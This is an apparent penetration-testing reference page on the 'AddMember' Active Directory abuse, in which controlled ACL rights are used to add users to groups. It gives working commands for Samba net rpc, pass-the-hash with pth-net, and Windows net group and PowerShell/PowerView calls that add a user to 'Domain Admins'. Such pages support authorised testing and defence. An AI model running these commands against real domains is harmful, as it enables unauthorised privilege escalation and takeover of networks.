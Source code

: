 # AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

{% tabs %}
{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](broken-reference).

```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc group addmem $TargetGroup $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```
{% endtab %}

{% tab title="Windows" %}
The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Command line
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```
{% endtab %}
{% endtabs %}

